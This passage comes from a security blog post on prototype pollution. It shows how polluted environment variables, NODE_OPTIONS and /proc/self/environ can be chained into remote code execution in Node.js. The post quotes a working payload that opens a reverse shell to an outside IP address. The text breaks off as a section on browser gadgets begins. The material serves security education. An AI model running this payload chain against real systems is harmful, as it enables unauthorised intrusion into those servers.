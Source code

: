 This snippet retrieves environment variables, which are used to run a new node process. For example, if `envPairs` is `a=1`, it would execute the command `a=1 node xxx.js`.

Since it runs node.js, we can secretly introduce a file using the `NODE_OPTIONS` environment variable:

``` js
// a.js
console.log('a.js')

// b.js
console.log('b.js')

// 跑這個指令，用環境變數引入 a.js
NODE_OPTIONS="--require ./a.js" node b.js

// 輸出
a.js
b.js
```

Therefore, if we can upload a JavaScript file, we can execute that file in combination with prototype pollution. It may sound complicated, but is there another method?

Yes! There is a commonly used technique where the content of certain files is controllable. For example, in PHP, the content of the session file can be controlled. You can refer to this article: [Exploiting RCE by Introducing PHP Session File via LFI](https://kb.hitcon.org/post/165429468072/%E9%80%8F%E9%81%8E-lfi-%E5%BC%95%E5%85%A5-php-session-%E6%AA%94%E6%A1%88%E8%A7%B8%E7%99%BC-rce). Another example is the file `/proc/self/environ` in Linux systems, which contains all the environment variables of the current process.

If we create an environment variable called `A=console.log(123)//`, the content of `/proc/self/environ` will become:

``` js
A=console.log(123)//YARN_VERSION=1.1PWD=/userLANG=en_US.UTF-8....
```

It becomes valid JavaScript code! We can execute it using this method:

``` js
NODE_OPTIONS="--require /proc/self/environ" A='console.log(1)//' node b.js
```

The code provided by the author is:

``` js
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
```

Polluted two different properties, creating two environment variables, one to make `/proc/self/environ` a valid JavaScript and include the code to be executed, and the other `NODE_OPTIONS` to import `/proc/self/environ` through `--require`, resulting in an RCE vulnerability that allows arbitrary code execution!

If you are interested in Node.js gadgets, you can refer to this excellent paper: [Silent Spring: Prototype Pollution Leads to Remote Code Execution in Node.js](https://arxiv.org/abs/2207.11171).

## Invisible Frontend Gadgets

In fact, not only existing code and third-party libraries, but even some Web APIs in browsers can be affected by prototype pollution.

As usual, it is most useful to provide examples:

``` js
fetch('https://example.com', {
```
